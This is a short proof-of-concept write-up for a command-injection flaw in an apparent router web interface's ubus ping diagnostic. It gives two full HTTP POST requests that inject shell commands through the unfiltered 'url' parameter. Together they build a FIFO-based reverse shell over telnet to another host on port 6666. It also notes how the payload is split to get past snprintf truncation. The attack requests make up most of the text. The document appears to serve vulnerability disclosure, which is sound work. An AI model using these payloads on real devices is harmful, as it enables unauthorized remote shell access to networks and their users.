 ```c
```

## III. POC Explanation

```
POST /ubus HTTP/1.1
Host: 192.168.50.2
Content-Length: 211
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.50.2
Referer: http://192.168.50.2/diagnosis.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"jsonrpc":"2.0","id":20,"method":"call","params":["b80717ca0f9be34ba9ad970dd0d5891c","network_tools","tools_ping",{"command":"ping","wanid":1,"url":");mkfifo /tmp/test;(","count":5,"size":64,"action":"start"}]}
```

```
POST /ubus HTTP/1.1
Host: 192.168.50.2
Content-Length: 211
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.50.2
Referer: http://192.168.50.2/diagnosis.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"jsonrpc":"2.0","id":20,"method":"call","params":["b80717ca0f9be34ba9ad970dd0d5891c","network_tools","tools_ping",{"command":"ping","wanid":1,"url":");telnet 192.168.50.1 6666 0</tmp/test|/bin/sh > /tmp/test;(","count":5,"size":64,"action":"start"}]}
```

`snprintf(v4, 0x80u, "(ping %s -c %d -s %d > %s; touch %s)&", ...);`

Since `snprintf` will truncate the string if it exceeds 80 bytes, the reverse shell command needs to be split. As there is no character filtering applied to the `url`, it can be replaced with any arbitrary command.

Demonstration of remote shell access:
